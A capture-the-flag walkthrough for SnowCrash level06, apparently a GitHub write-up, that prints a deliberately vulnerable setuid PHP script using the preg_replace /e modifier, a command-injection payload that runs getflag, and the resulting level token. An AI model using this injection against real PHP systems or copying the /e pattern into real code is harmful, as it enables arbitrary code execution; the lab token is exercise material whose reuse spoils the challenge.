 # 🧊 SnowCrash - Level06 Walkthrough

## Level: 06

**Objective:** Exploit a vulnerable PHP script to execute arbitrary code and retrieve the token for `flag06`.

### 🧩 Step-by-step Solution

**1. List the files in the home directory**

```bash
ls -l
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwsr-x---  1 flag06 level06  356 Mar  5  2015 level06.php
```

🔍 The `level06` binary is setuid and owned by `flag06`. It appears to use `level06.php` internally.

**2. Analyze the vulnerable PHP script**

```bash
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

🔍 Security issue: The regex `preg_replace("/(\[x (.*)\])/e", ...)` uses the deprecated `e` modifier, which **evaluates the replacement string as PHP code**.

✅ This makes it vulnerable to code injection inside `[x ...]`.

**3. Craft the payload**

Write a file containing malicious code:

```bash
echo '[x ${`getflag`}]' > /tmp/exploit
```

**4. Run the binary with the payload**

```bash
./level06 /tmp/exploit
```
✅ Output:

```bash
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

🎯 The flag was successfully injected and executed via PHP’s vulnerable regex replacement!

**🔓 Successfully moved to level07!**
